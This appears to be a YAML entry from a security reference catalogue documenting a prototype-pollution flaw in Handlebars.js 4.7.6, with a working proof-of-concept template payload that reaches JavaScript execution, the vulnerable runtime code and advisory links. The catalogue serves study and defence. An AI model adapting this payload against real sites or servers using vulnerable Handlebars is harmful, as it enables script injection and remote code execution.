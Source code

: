 ```yaml
      - any-tag
      - any-attr
      - unsafe-eval-csp
      - func-call-parameter
    pocs:
      - description: |
          There was a prototype pollution in [Handlebars.js](https://github.com/handlebars-lang/handlebars.js) that allowed to execute JavaScript code.

          *On server-side usage, this is a Remote Code Execution (RCE).*
        code: |
          <script nonce="secret" src="https://cdnjs.cloudflare.com/ajax/libs/handlebars.js/4.7.6/handlebars.min.js"></script>
          <script nonce="secret">
            // user input
            var s = `
            {{#with (__lookupGetter__ "__proto__")}}
            {{#with (./constructor.getOwnPropertyDescriptor . "valueOf")}}
            {{#with ../constructor.prototype}}
            {{../../constructor.defineProperty . "hasOwnProperty" ..}}
            {{/with}}
            {{/with}}
            {{/with}}
            {{#with "constructor"}}
            {{#with split}}
            {{pop (push "alert(document.domain);")}}
            {{#with .}}
            {{#with (concat (lookup join (slice 0 1)))}}
            {{#each (slice 2 3)}}
            {{#with (apply 0 ../..)}}
            {{.}}
            {{/with}}
            {{/each}}
            {{/with}}
            {{/with}}
            {{/with}}
            {{/with}}
            `;
            var template = Handlebars.compile(s, { strict: true });
            template({}); 
          </script>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/handlebars-lang/handlebars.js/blob/e6ad93ea01bcde1f8ddaa4b4ebe572dd616abfaa/lib/handlebars/runtime.js#L121">https://github.com/handlebars-lang/handlebars.js/blob/e6ad93ea01bcde1f8ddaa4b4ebe572dd616abfaa/lib/handlebars/runtime.js#L121</a>

      ```javascript
      strict: function(obj, name, loc) {
        if (!obj || !(name in obj)) {
          throw new Exception('"' + name + '" not defined in ' + obj, {
            loc: loc
          });
        }
        return obj[name];
      },
      ```
    links:
      - https://github.com/advisories/GHSA-765h-qjxv-5f44
      - https://github.com/handlebars-lang/handlebars.js/commit/f0589701698268578199be25285b2ebea1c1e427
      - https://security.snyk.io/vuln/SNYK-JS-HANDLEBARS-1056767
```